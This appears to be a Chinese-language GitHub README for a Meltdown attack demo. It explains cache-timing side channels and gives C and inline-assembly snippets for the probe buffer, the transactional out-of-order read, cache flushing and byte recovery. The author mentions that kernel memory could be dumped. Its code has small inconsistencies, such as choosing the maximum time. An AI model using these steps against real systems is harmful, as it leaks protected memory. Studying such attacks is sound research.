


# Meltdown attack demo

## 实验环境

fedora 25 with linux kernel version 4.8.6-300
gcc 6.4.1

## 实验要点

### 基本思想

一种side-channel attack，其实就是利用乱序执行过程中cache状态的改变，通过测量cache的访问时间得出具体是拿一页被装入了cache，间接知道访问位置的内存信息。

m <- [victim] \
array[m * page_size]

以上两个操作中，第一个执行时候会产生异常，但因为乱序执行，下面的指令也会被执行，导致cache中被装入一个页，通过flush-measure的步骤，我们就可以知道哪一个页被装入，从而知道[victim]

### 具体实现步骤

#### 准备一块内存区域作为访问速度的测量介质

这个的选取方式可以有很多，假如我想每次测一个字节，那么就需要准备256个内存页的空间，相比较下，如果我每次只测一个位，就只需要2个页的内存空间，在我的实验下，我发现其实用每次测一个字节的方式效果最好，比较对象较多的情况下更容易判断出到底哪个页的访问更快。

```c
  int page_size = getpagesize();
  char* poke = (char*)mmap(NULL, 256 * page_size, PROT_READ | PROT_WRITE, MAP_ANON | MAP_SHARED, -1, 0);
```

#### 执行非法访问与普通内存访问操作

为了得到有意义的信息，我其实是选用了一块可以合法访问的区域进行模拟，如果想整个dump内核空间也可以做到。

核心操作是一段访问。

```c
    asm __volatile__ (
    "xbegin 0x6 \n"
    "%=: \n"
    "xorq %%rax, %%rax \n"
    "movb (%[ptr]), %%al \n"
    "shlq $0xc, %%rax  \n"
    "jz %=b  \n"
    "movq (%[buf], %%rax, 1), %%rbx \n"
    "xend \n"
    : 
    :  [ptr] "r" (ptr), [buf] "r" (buf)
    :  "%rax", "%rbx"
    );
```

在这个操作中，会进行关键的向ptr的访问，结果转移到al寄存器，也就是RAX寄存器的末尾以一个字节，下面的操作将RAX寄存器向左移动12位，也就是*4096，一个页的大小，此时使用RAX的值访问BUF，就可以将对应页的内容放入cache。

放入cache后，接下来是访问时间的测量，为了取得好的效果，采用了多次测量取平均值，每次测量结果得出后，都需要执行一次flush操作，重新进行非法访问，内存访问，再测量（其实速度也很快）。

```c
    for (i=0; i<256; i++) {
      flush(&buf[i * page_size]);
    }
```

每次测量第i页的访问时间，将测量时间值放入times[i]，最终得到各个页在16次实验中的平均测量时间，从中选出最大者，其页号就是我们要的内存的数值。

```c
  for (i=0; i<256; i++) {
    victim = (tests[i] > tests[victim]) ? i : victim;
  }
  return victim；
```

这样就得到了一个BYTE的信息，再继续测量下一个byte就可以了。

#### 查看一个内存cache与不cache的访问时间差距有多大

这个我比较好奇，于是在OCTAVE上将测量结果画了出来：



可以看出确实有一个比其他的时间少好多（横坐标代表BYTE数值，纵坐标是时间），大概是平均水平1/3的样子。

### 实验结果

可以不直接访问secret的内容而得到secret的值。



### 参考资料：

测量时间的方法来自：https://github.com/defuse/flush-reload-attacks \
X86汇编指南：http://flint.cs.yale.edu/cs421/papers/x86-asm/asm.html \
Meltdown attack: https://github.com/IAIK/meltdown.git \
在线反汇编： https://onlinedisassembler.com/static/home/index.html \